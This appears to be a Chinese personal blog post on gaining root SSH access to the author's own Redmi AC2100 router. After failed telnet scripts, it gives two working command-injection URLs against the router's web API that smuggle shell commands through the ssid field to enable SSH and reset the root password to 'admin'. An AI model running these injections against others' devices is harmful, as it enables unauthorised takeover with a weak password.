 ```yaml
---
date: 2021-01-29
title: 红米 AC2100 开启 SSH 权限
tags: []
---
```

> TL;DR [看这里](https://www.right.com.cn/forum/thread-4032490-1-1.html)，成功版本为 `2.0.23 稳定版`，其他版本不保证成功。

之前按照 [这篇](https://www.xiaoz.me/archives/15192) 想开启路由器的 telnet 权限。

dalao 写了一些脚本，但是遇到了很多问题，包括但不限于：
- 由于忘关火绒导致 nc 被删除，弹出 `nc.exe不是内部或外部命令，也不是可运行的程序或批处理文件。8081端口被占用，请检查`。解决方法为进入火狐的恢复区恢复文件，并添加信任，以免误删。
- 获取包的时候脚本报错，但还是提示 PPPOE 获取成功。这个问题原因为演示版本为 `1.0.14`，而新路由器被官方自动升级为了 `2.0.23`，方法已不再适用。解决方法为从 `官方救砖工具以及原厂固件备份` 文件夹中手动上传 `1.0.14` 包升级 ROM。
- 第一次失败，无法继续。解决方法为断开 WAN LAN 口相连线，然后重试。

然后，，，到复制命令的时候死活进不去，于是放弃了。

突然看到 [帖子说](https://www.right.com.cn/forum/thread-4032490-1-1.html) 有漏洞可以钻，试了下直接拿下了 SSH 的 root 权限：

首先注销登陆的账户，然后重新登陆，这时观察浏览器顶上的 url,会有 `stok` 的参数，这就是 token 啦。有了 token 按照帖子里的办法就办法注入了，只需要两次就行，一定要吧 `<STOK>` 替换为自己的 token。

去掉 `#` 开头的注释，把链接复制到浏览器里面，注意把 <STOK> 替换为自己的。

```bash
# enable SSH

http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# change password to `admin`
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B

```

然后就可以愉快的一行登陆啦（密码为 `admin`）

```bash
ssh root@192.168.31.1
```

